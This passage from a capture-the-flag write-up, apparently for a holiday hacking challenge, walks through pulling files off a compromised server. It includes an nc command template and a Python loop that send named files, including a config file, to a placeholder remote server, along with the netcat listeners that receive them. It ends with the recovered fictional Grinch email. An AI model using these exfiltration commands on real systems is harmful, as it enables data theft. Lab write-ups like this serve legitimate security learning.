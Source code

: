 We do see that we have `nc` and `python` on the box! Score! We only need one, so let's exfiltrate via `nc`.

We know the wanted files are in `/gnome/www/files`. We can exfiltrate the files via a simple `nc` command: `nc REMOTE_HOST REMOTE_PORT < /gnome/www/files/FILE`. This will ship the contents of a file to a remote host. In our case, we will simply use an AWS instance as an easy way of exfiltrating files.

After constructing a list of files we want to exfil, we can create a series of `nc` commands with a simple Python loop.

```python
folder = os.path.join('/', 'gnome', 'www', 'files')
files = [
        '20151215161015.zip',
        'factory_cam_5.zip',
        'gnome.conf'
        ]

server_ip = 'your_server_ip'

# Exfiltrate files out of the box
command = ''
for index, file in enumerate(files):
    filepath = os.path.join(folder, file)
    curr_command = 'nc {} 5711{} < {};'.format(server_ip, index, filepath)
    command += curr_command
```

The only thing left to do is setup our listening ports. On our AWS instance, we create a series of listening netcats: `nc -l 57110 > file1`, `nc -l 57111 > file2`, ect.

We throw our exploit and after a few minutes, we are greeted with our prized bounty!

Below is the email from the pcap found in `20151215161015.zip`:

```
From: "Grinch" <grinch@who-villeisp.com>
To: <c@atnascorp.com>
Subject: My Apologies & Holiday Greetings
Date: Tue, 15 Dec 2015 16:09:40 -0500

Dear Cindy Lou,

I am writing to apologize for what I did to you so long ago.  I wronged you
and all the Whos down in Who-ville due to my extreme misunderstanding of
Christmas and a deep-seated hatred.  I should have never lied to you, and I
should have never stolen those gifts on Christmas Eve.  I realize that even
returning them on Christmas morn didn't erase my crimes completely.  I seek
your forgiveness.

You see, on Mount Crumpit that fateful Christmas morning, I learned th
[4 bytes missing in capture file] at Christmas doesn't come from a store.  
In fact, I discovered that Christmas means a whole lot more!

When I returned their gifts, the Whos embraced me.  They forgave.  I was
stunned, and my heart grew even more.  Why, they even let me carve the roast
beast!  They demonstrated to me that the holiday season is, in part, about
forgiveness and love, and that's the gift that all the Whos gave to me that
morning so long ago.  I honestly tear up thinking about it.

I don't expect you to forgive me, Cindy Lou.  But, you have my deepest and
most sincere apologies.

And, above all, don't let my horrible actions from so long ago taint you in
any way.  I understand you've grown into an amazing business leader.  You
are a precious and beautiful Who, my dear.  Please use your skills wisely
```